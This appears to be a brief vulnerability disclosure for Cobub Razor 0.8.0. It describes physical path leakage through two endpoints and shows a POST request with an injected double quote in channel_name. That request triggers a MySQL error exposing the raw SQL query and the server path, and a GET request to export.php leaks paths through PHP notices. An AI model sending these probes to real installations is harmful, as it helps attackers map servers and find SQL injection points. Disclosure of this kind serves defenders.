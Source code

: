 
## This physical path Leakage exists in Western Bridge Cobub Razor 0.8.0 via a /index.php?/manage/channel/addchannel and /export.php request. ##

The pages leaked the absolute path:  
http://localhost/index.php?/manage/channel/addchannel  
POST method:channel_name=test"&platform=1  
Result:
```
Error Number: 1064

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '123"' at line 3

select * from razor_channel where (user_id = "1" or type="system") and active=1 and channel_name="test" " and platform="123"

Filename: D:\phpStudy\PHPTutorial\WWW\system\database\DB_driver.php

Line Number: 331
```  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_lackage_1.png)
http://localhost/export.php  
GET method  
Result:
```
Notice: Undefined index: type in D:\phpStudy\PHPTutorial\WWW\export.php on line 22

Notice: Undefined index: svg in D:\phpStudy\PHPTutorial\WWW\export.php on line 23

Notice: Undefined index: filename in D:\phpStudy\PHPTutorial\WWW\export.php on line 24

Notice: Undefined variable: ext in D:\phpStudy\PHPTutorial\WWW\export.php on line 52

Notice: Undefined variable: ext in D:\phpStudy\PHPTutorial\WWW\export.php on line 94
Invalid type
```
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_lackage_2.png)
